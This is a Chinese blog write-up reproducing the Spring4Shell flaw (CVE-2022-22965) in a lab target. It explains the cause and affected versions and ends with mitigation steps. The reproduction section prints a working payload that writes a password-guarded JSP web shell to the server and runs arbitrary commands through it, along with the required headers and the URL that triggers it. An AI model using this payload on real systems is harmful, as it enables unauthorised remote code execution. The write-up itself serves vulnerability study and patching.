 # Spring core远程代码执行漏洞(CVE-2022-22965)复现






## 漏洞简介

springframework 是spring 里面的一个基础开源框架，主要用于javaee的企业开发。2022年3月30日，Spring框架曝出RCE 0day漏洞，攻击者通过该漏洞可远程实现对目标主机的后门文件写入和配置修改，继而通过后门文件访问获得目标主机权限。



## 漏洞成因

该漏洞是由于 Spring Core 未对传输的数据进行有效的验证。Spring MVC 框架提供参数绑定功能，允许用请求中的参数绑定控制器方法中参数对象的成员变量。这一机制使得攻击者能够通过构造恶意请求获取 AccessLogValve 对象，继而注入恶意字段值触发 pipeline 机制，从而能够在未授权的情况下远程构造恶意数据，写入任意路径下的文件，从而导致远程代码执行。



## 影响版本

Spring Framework 5.3.X < 5.3.18 

Spring Framework 5.2.X < 5.2.20



## 利用条件

- JDK 版本 >= 9

- 目标JDK9及其以上版本

- 使⽤了Spring-beans包；

- 使⽤了Spring参数绑定；

- Spring参数绑定使⽤的是⾮基本参数类型，例如⼀般的POJO即可；

  





## 漏洞复现

复现环境：这里使用vulfocus在线靶场：

### 1.连接靶场：

![image-20220429220755621](https://image.geoer.cn/img/image-20220429220755621.png)



![image-20220429220821256](https://image.geoer.cn/img/image-20220429220821256.png)





### 2.发送POC



**POC:**

```
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

```

访问时抓包，在"/"后插入EXP，并在请求头中插入如下字样：

```
suffix: %>
c1: Runtime
c2: <%
DNT: 1
Content-Length: 2
```



poc原理：

```
其中，header主要变更处为：
“suffix”:"%>",
“c1”:“Runtime”,
“c2”:"<%",
“DNT”:“1”,
“Content-Type”:“application/x-www-form-urlencoded”
:主体部分，链接后接两个参数pwd和cmd，pwd验证密码，cmd为实行的命令
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
:上传的文件后缀
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
：上传的文件名
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT/
:webapps/ROOT/knan为上传的目录，此处为访问创建目录下的文件

```







数据包内容：

![image-20220429223038550](https://image.geoer.cn/img/image-20220429223038550.png)









### 3.利用





若创建通过，放包后访问`[url]/tomcatwar.jsp?pwd=j&cmd=id`即可看到id命令成功执行。

![image-20220429222443020](https://image.geoer.cn/img/image-20220429222443020.png)



![image-20220429223116723](https://image.geoer.cn/img/image-20220429223116723.png)



## 利用工具

https://github.com/reznok/Spring4Shell-POC







## 修复建议

一、官方修复建议：

当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

二、临时修复建议：

该临时修复建议存在一定风险，建议用户可根据业务系统特性审慎选择采用临时修复方案：

需同时按以下两个步骤进行漏洞的临时修复:

\1. 在应用中全局搜索 @InitBinder 注解，看看方法体内是否调用 dataBinder.setDisallowedFields 方法，如果发现此代码片段的引入，则在原来的黑名单中，添加 {"class.*","Class. *","*. class.*", "*.Class.*"}。(注：如果此代码片段使用较多，需要每个地方都追加)

\2. 在应用系统的项目包下新建以下全局类，并保证这个类被 Spring 加载到 (推荐在 Controller 所在的包中添加). 完成类添加后，需对项目进行重新编译打包和功能验证测试。并重新发布项目。





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/spring-core%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-cve-2022-22965-%E5%A4%8D%E7%8E%B0/  

